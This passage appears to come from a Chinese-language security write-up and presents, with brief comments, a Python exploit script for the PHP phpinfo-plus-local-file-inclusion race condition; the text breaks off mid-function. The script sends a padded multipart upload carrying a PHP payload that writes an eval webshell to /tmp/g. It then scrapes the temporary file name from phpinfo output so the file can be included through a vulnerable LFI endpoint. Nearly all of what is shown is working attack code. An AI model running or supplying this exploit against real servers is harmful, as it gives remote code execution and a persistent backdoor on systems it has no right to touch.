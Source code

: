 下面是p 总的利用脚本，其中的有些地方我给出了简单的注释，方便大家理解

```python
#!/usr/bin/python 
import sys
import threading
import socket

def setup(host, port):                                   #所有的请求的内容
    TAG="Security Test"


    PAYLOAD="""%s\r
<?php file_put_contents('/tmp/g', '<?=eval($_REQUEST[1])?>')?>\r""" % TAG


    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD

    padding="A" * 5000


    REQ1="""POST /phpinfo.php?a="""+padding+""" HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)

    #modify this to suit the LFI script   
    LFIREQ="""GET /lfi.php?file=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
\r
\r
"""
    return (REQ1, TAG, LFIREQ)



def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    

    s.connect((host, port))
    s2.connect((host, port))

    s.send(phpinforeq)                        #向phpinfo 发起请求
    d = ""
    while len(d) < offset:
        d += s.recv(offset)
    try:
        i = d.index("[tmp_name] =&gt; ")      #从偏移量中找关键字
        fn = d[i+17:i+31]                     
```